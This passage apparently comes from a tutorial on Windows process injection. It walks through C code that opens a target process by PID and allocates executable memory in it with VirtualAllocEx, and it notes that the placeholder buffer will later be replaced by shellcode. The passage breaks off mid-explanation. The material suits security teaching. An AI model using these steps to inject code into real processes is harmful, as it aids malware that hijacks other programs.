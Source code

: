 We retrieved the handle successfully.

#### Allocate space on the remote process

Next step after retrieving the handle will be Allocating space inside that
process, we can do that using
[VirtualAllocEx()](https://docs.microsoft.com/en-
us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) using the
following code:

    
    
    #include &lt;windows.h&gt;
    
    
    int main(int argc, char *argv[]){
    
    
       char data[] = &quot;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&quot;;
       
      // The PID that you want to use
       int process_id = atoi(argv[1]);
    
      // Declare a new handle as process variable
      // PROCESS_ALL_ACCESS
      HANDLE process = OpenProcess(PROCESS_ALL_ACCESS, 0, process_id);
    
      // If the operation succeeded it will return the handle
      if(process){
        printf(&quot;[+] Handle retrieved successfully!\n&quot;);
    
        // We can print it as pointer using printf
        printf(&quot;[+] Handle value is %p\n&quot;, process);
        
        // Allocate space
        // Define the base_address variable which will save the allocated memory address
    	LPVOID base_address;
        base_address = VirtualAllocEx(process, NULL, sizeof(data), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    	if(base_address){
    
            printf(&quot;[+] Allocated based address is 0x%x\n&quot;, base_address);
    
    	}else{
    		printf(&quot;[-] Unable to allocate memory ...\n&quot;);
    	}
        
      }else{
        printf(&quot;[-] Unable to retrieve process handle\n&quot;);
      }
    
    }
    

I added some data in line #7 as a dump data (will be replaced with our
shellcode), we should have it to allocate the memory based on its size.

In line #25 we declared a variable called "base_address" as LPVOID which will
represent the base address of the allocated memory.

And in line #26 we use VirtualAllocEx() and pass the following parameters for
it:
